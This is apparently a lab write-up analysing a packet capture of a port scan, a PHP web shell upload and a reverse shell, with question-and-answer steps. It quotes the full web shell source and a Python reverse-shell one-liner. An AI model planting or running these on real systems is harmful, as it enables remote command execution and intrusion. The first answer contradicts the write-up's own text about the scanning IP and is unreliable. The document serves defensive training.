 # Network Analysis - Web Shell 

The SOC received an alert in their SIEM for ‘Local to Local Port Scanning’ where an internal private IP began scanning another internal system. Can you investigate and determine if this activity is malicious or not? You have been provided a PCAP, investigate using any tools you wish. 

# Questions

## What is the IP responsible for conducting the port scan activity? 

We can see the scan at the packet 117 when **10.251.96.4** tries to connect to **10.251.96.5:135** with a **\[SYN]** flaged packet <br>

**10.251.96.5** responds with the **[RST, ACK]** flags indicating that the port is closed. This is done extensively for a huge number of ports <br>

**Answer:** 10.251.96.5

## What is the port range scanned by the suspicious host?

If we go to **Statistics->IPV4 Statistics->Destinations and Ports** we can see all the communication between the capture machine and the addresses <br>

So, if we only visualize the target of the scan, we can see the range of ports

**Answer:** 1-1024

## What is the type of port scan conducted?

It seems to be a TCP connect scan but it does not accept the answer for any of the known types of scan (lul) <br>

Well turns out it accepts only TCP SYN although the technical nomenclature is Stealth scan

**Answer:** TCP SYN

## Two more tools were used to perform reconnaissance against open ports, what were they?
To solve this i used another resource to agilize the capture analysis ([A-Packets](https://apackets.com/upload)) <br>

In it, there was a section refering to the used **user-agents**
```
Apache Apache/2.4.29 (Ubuntu) (internal dummy connection)
Chrome Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4324.146 Safari/537.36
Firefox Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
gobuster/3.0.1
sqlmap/1.4.7#stable (http://sqlmap.org)
```
**Answer:** gobuster 3.0.1, sqlmap 1.4.7

## What is the name of the php file through which the attacker uploaded a web shell? 

If we follow the HTTP stream, we can see (at the end) an http form
```html
<form action="upload.php" method="post" enctype="multipart/form-data">
  Change Profile Pic
  <input type="file" name="fileToUpload" id="fileToUpload">
  <input type="submit" value="Upload Image" name="submit">
</form>
```

And we can see it is a **200** response to the following request
```
GET /editprofile.php HTTP/1.1
Host: 172.20.10.2
Connection: keep-alive
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4324.146 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://172.20.10.2/complaint.php
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: PHPSESSID=jbpg5n6jkaidu9955fct9p0v6l
```

**Answer:** editprofile.php

## What is the name of the web shell that the attacker uploaded? 

we can see that with the last couple of packets (following their http stream) with the following wireshark filter
``` 
FILTER: http and ip.src == 10.251.96.4 and ip.dst == 10.251.96.5

REQUEST:
POST /upload.php HTTP/1.1
Host: 10.251.96.5
(...)
-----------------------------172729275513321405741501890958
Content-Disposition: form-data; name="fileToUpload"; filename="dbfunctions.php"
Content-Type: application/x-php

<?php
if(isset($_REQUEST['cmd']) ){
echo "<pre>";
$cmd = ($_REQUEST['cmd']);
system($cmd);
echo "</pre>";
die;
}
?>

-----------------------------172729275513321405741501890958
Content-Disposition: form-data; name="submit"

Upload Image
-----------------------------172729275513321405741501890958--
```
**Answer:** dbfunctions.php

## What is the parameter used in the web shell for executing commands? 

Well, we have access to the file content
```php
<?php
    if(isset($_REQUEST['cmd']) ){
        echo "<pre>";
        $cmd = ($_REQUEST['cmd']);
        system($cmd);
        echo "</pre>";
        die;
    }
?>
```
**Answer:** cmd

## What is the first command executed by the attacker?

With the same filter, we can see the requests made to the **dbfunctions.php** through the **cmd** parameter <br>

**Answer:** id

## What is the type of shell connection the attacker obtains through command execution? 

We can see the request with the command, and we can say that it is a reverse shell 
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.251.96.4",4422));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
**Answer:** reverse

## What is the port he uses for the shell connection?

We can see from the previous answer, that the reverse shell connects to
```
"10.251.96.4",4422
```
**Answer:** 4422